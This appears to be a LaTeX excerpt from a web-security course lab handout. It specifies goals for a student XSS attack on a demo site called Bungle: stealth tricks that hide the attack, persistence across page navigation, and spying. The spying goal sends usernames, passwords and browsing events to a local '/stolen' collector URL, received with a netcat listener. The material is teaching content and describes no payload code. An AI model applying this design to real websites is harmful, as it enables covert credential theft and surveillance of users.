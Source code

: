 \documentclass[letterpaper,12pt]{report}
\begin{document}
\noindent\textbf{Stealth:}
\begin{itemize}
\item Display all pages correctly, with no significant evidence of attack.\\
(Minor text formatting glitches are acceptable.)
\item Display normal URLs in the browser's location bar, with no evidence of attack.\\
(Hint: Learn about the HTML5 History API.)
\item Hide evidence of attack in the \bungle\ search history view, as long as your code is running.
\end{itemize}

\noindent\textbf{Persistence:}
\begin{itemize}
\item Continue the attack if the user navigates to another page on the site by following a link or submitting a form, including by logging in or logging out.  (Your code does \textbf{not} have to continue working if the user's actions trigger an error that isn't the fault of your code.)
\item Continue the attack if the user navigates to another \bungle\ page by using the browser's back or forward buttons.
\end{itemize}

\noindent\textbf{Spying:}
\begin{itemize}
\item Report all login and logout events by loading the URLs:\\
\texttt{http://127.0.0.1:31337/stolen?event=login\&user=<username>\&pass=<password>}\\
\texttt{http://127.0.0.1:31337/stolen?event=logout\&user=<username>}

You can test receiving this data on your local machine by using Netcat: \texttt{\$ nc -l 31337}

\item Report each page that is displayed (what the user thinks they're seeing) by loading the URL:\\
\texttt{http://127.0.0.1:31337/stolen?event=nav\&user=<username>\&url=<encoded\_url>}\\
(\texttt{<username>} should be omitted if no user is logged in.)
\end{itemize}


\subsection*{Defenses} 
\end{document}
